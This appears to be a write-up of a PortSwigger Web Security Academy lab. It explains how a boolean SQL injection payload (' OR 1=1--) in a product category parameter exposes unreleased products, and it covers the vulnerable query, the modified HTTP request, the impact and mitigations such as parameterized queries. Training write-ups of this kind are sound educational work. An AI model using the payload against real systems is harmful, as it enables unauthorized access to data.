




# Lab 01 - SQL Injection Vulnerability in WHERE Clause Allowing Retrieval of Hidden Data

## Lab Information

* **Platform:** PortSwigger Web Security Academy
* **Category:** SQL Injection
* **Difficulty:** Apprentice
* **Lab Status:** Solved

---

# Objective

Exploit a SQL injection vulnerability in the product category filter to retrieve products that are marked as unreleased within the database.

---

# Vulnerability Overview

The application filters products based on the selected category using a SQL query similar to:

```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1;
```

The application fails to properly sanitize user input before including it in the SQL query. This allows an attacker to inject additional SQL conditions that modify the intended logic.

---

# Reconnaissance

While browsing different product categories, the `category` parameter was observed in the request.

Example:

```http
GET /filter?category=Gifts HTTP/2
```

Since the category value is directly supplied by the client, it became a potential SQL injection point.

---

# Testing Methodology

1. Selected any product category.
2. Intercepted the request using Burp Suite.
3. Modified the value of the `category` parameter.
4. Injected a Boolean SQL payload.
5. Forwarded the modified request.
6. Observed that products marked as unreleased were returned by the application.

---

# Payload Used

```sql
' OR 1=1--
```

Modified request:

```http
GET /filter?category=' OR 1=1-- HTTP/2
```

---

# Why the Payload Works

Original SQL query:

```sql
SELECT * FROM products
WHERE category='Gifts'
AND released=1;
```

After injection:

```sql
SELECT * FROM products
WHERE category=''
OR 1=1--'
AND released=1;
```

The injected condition:

```sql
OR 1=1
```

always evaluates to **TRUE**.

The double dash (`--`) comments out the remainder of the SQL statement, preventing the original `released = 1` condition from being executed.

As a result, the database returns **all products**, including those that are intended to remain hidden.

---

# Result

The application displayed products that were marked as unreleased.

This confirmed the presence of a SQL Injection vulnerability within the product category filter.

The lab was successfully solved.

---

# Security Impact

If exploited in a real-world application, this vulnerability could allow an attacker to:

* Access sensitive information
* Bypass application restrictions
* Retrieve hidden or confidential records
* Enumerate database contents
* Use the vulnerability as a stepping stone for further SQL injection attacks

---

# Mitigation

* Use parameterized queries (Prepared Statements).
* Avoid constructing SQL queries using user-controlled input.
* Validate and sanitize input where appropriate.
* Apply the principle of least privilege to database accounts.
* Implement server-side input validation.

---

# Key Learning

This lab demonstrates how a simple Boolean-based SQL Injection can completely alter the logic of a SQL query.

Instead of bypassing authentication or extracting database contents, the attack modifies the application's filtering conditions, allowing unauthorized access to hidden data. It highlights the importance of secure query construction and proper handling of user-supplied input.

---

# Screenshots

## Screenshot 1 - Original Product Listing



**Explanation:**

The application displays only released products before the SQL injection attack.

---

## Screenshot 2 - Original Request



**Explanation:**

Burp Suite intercepts the request containing the vulnerable `category` parameter before any modifications are made.

---

## Screenshot 3 - SQL Injection Payload



**Explanation:**

The payload `' OR 1=1--` is injected into the `category` parameter, causing the WHERE clause to always evaluate to true.

---

## Screenshot 4 - Hidden Products Displayed



**Explanation:**

After forwarding the modified request, the application returns both released and unreleased products, confirming successful exploitation of the SQL injection vulnerability.
